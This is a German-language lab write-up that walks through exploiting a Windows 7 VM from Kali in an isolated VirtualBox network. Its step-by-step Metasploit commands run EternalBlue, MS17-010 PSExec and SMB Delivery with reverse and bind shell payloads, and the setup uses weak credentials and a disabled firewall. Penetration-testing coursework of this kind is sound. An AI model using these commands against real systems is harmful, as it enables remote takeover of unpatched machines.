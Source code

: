 # Labor 4
## 1. Internes Netzwerk aufsetzen
**VirtualBox**: `Tools > Network > NAT Networks > Create`

    - Name: vboxnet
    - IPv4 Prefix: 192.168.100.0/24
    - DHCP-Server deaktivieren

## 2. VMs aufsetzen
**VirtualBox**: `New > follow the installation instructions`

    - User: zepi
    - Password: 123
    - In den Settings der VMs das Netzwerk auf das erstellte interne NAT Network setzen

## 3. Manuelle IP-Zuweisung
**Kali**: *während der Installation* oder `StatusBar > Internet (right click) > Edit Connections...`

    - IP: 192.168.100.10
    - Netmask: 255.255.255.0

**Windows 7:** `Netzwerk und Freigabecenter öffnen > LAN-Verbindung > Eigenschaften > Internetprotokoll Version 4 (TCP/IPv4)`

    - IP: 192.168.100.20
    - Netmask: 255.255.255.0

*Firewall deaktivieren*

### Verbindung Testen
Win > Kali
```powershell
ping 192.168.100.10
```
Kali > Win
```bash
ping 192.168.100.20
```

## 4. Exploits Ausführen

### 4.1 EternalBlue mit reverse_http Payload
**Kali**
```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
use PAYLOAD windows/x64/meterpreter/reverse_http
set -g RHOSTS 192.168.100.20
set -g LHOST 192.168.100.10
exploit
```
Durch `-g` wird der Wert global gesetzt und muss nicht erneut gesetzt werden.

Exploit testen:
```bash
sysinfo
screenshot
exit
```

### 4.2 MS17-010 PSExec mit bind_tcp Payload
**Kali**
```bash
msfconsole
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 192.168.100.20
set PAYLOAD windows/meterpreter/bind_tcp
set LPORT 4444

# Wichtig: Authentifizierung
set SMBUser zepi
set SMBPass 123

# Optional: Überprüfen der Einstellungen
show options

# Exploit ausführen
exploit
```

Exploit testen:
```bash
sysinfo
getuid
exit
```

Troubleshooting für PSExec:
- Falls "Unable to find accessible named pipe!" erscheint:
    1. Credentials überprüfen (zepi/123)
    2. Windows Services prüfen:
        - services.msc öffnen
        - "Server" Service muss laufen
        - "Windows Management Instrumentation" muss laufen
    3. Windows Firewall muss deaktiviert sein

### 4.3 SMB Delivery mit shell_reverse_tcp Payload
**Kali**
```bash
msfconsole
use exploit/windows/smb/smb_delivery

# Konfiguration
set SRVHOST 192.168.100.10
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.100.10
set LPORT 4445

# Optional: Status prüfen
show options

# Exploit starten (startet den Server)
exploit

# Der Exploit gibt einen PowerShell-Befehl aus, der auf dem Windows-System ausgeführt werden muss
```

**Windows 7**
1. PowerShell als Administrator öffnen
2. Den generierten PowerShell-Befehl aus Metasploit einfügen und ausführen

**Nach erfolgreicher Verbindung**
```bash
# Sessions anzeigen
sessions -l

# Mit Session verbinden
sessions -i 1
```

## 5. Unterschiede der Exploits
1. **EternalBlue (MS17-010)**
    - Nutzt SMBv1 Buffer Overflow
    - Benötigt keine Credentials
    - Reverse_http Payload für stabilere Verbindung
    - Direkter Meterpreter Zugriff

2. **PSExec (MS17-010)**
    - Nutzt Named Pipes
    - Benötigt gültige Credentials (zepi/123)
    - Bind_tcp Payload für direkten Zugriff
    - Kontrollierter Exploit-Ablauf

3. **SMB Delivery**
    - Client-seitige Ausführung über PowerShell
    - Nutzt SMB für Payload-Delivery
    - Shell_reverse_tcp für direkten Shell-Zugriff
    - Benötigt Benutzerinteraktion auf Zielsystem
